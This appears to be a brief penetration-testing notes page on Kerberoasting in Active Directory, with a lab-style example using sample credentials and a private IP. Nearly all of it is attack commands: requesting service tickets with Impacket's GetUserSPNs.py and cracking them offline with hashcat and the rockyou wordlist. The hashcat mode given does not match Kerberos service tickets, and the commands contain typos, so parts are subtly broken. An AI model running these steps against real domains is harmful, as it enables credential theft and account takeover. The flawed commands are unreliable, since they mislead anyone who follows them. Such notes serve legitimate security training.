 # Kerborosting

If you have a lower level user you can try seeing if you can find a token or kerberos ticket.
```
GetUserSPNs.py <domain>/<user>:<assword> -dc-ip <ip_of_DC> -request
```
Example:
```
GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 192.168.22.137 -request
```
Once you get a ticket back use hashcat to crack the password
```
hashcat -m 14100 hashes.txt. rockyou.txt -O
```

